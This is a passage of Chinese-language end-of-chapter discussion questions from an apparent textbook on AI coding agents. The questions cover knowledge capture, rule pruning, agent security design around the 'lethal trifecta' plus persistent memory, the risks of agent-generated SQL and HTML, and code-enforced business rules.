5. ★★ 本章展示了 Coding Agent 把执行和调试中获得的经验沉淀回代码库的多种方式——写入知识库文件、更新架构文档、维护项目指令文件、把操作序列固化为代码。如果把这些经验进一步提炼为系统提示词中的规则，规则集会随时间不断膨胀。如何对沉淀下来的规则做“垃圾回收”——识别并清理冗余或过时的条目？为什么一次成功的代码修改还不能直接视为第九章所说的持续进化？
6. ★ “对远程工作友好的团队往往也对 AI Agent 友好。”你所在的团队或组织，在知识文档化方面距离“AI-ready”还有多远？最大的障碍是什么？
7. ★★★ Simon Willison 提出了 Agent 的“致命三要素”（访问私有数据、暴露于不受信任内容、具备外部通信能力），本章在此基础上增加了第四个——持久记忆。在一个需要同时处理这四种要素的生产环境中，你会如何设计安全策略？
8. ★★ Artifact 模式让 Agent 生成 SQL 或前端代码，由数据库和浏览器直接执行，绕过 LLM 处理大量数据。与传统的“Agent 直接给出答案”相比，这种“Agent 生成代码、系统执行代码”的分工有什么优劣？生成的 SQL 可能执行破坏性操作、生成的 HTML 可能包含漏洞，又该如何确保安全？
9. ★★ 将业务规则编码为工具内部基于数据库真值的校验，并用参数设计引导模型在调用前核对政策条件，本质上是用代码结构来约束 Agent 行为。这种“代码即规则”的模式相比自然语言规则有什么优势和局限？
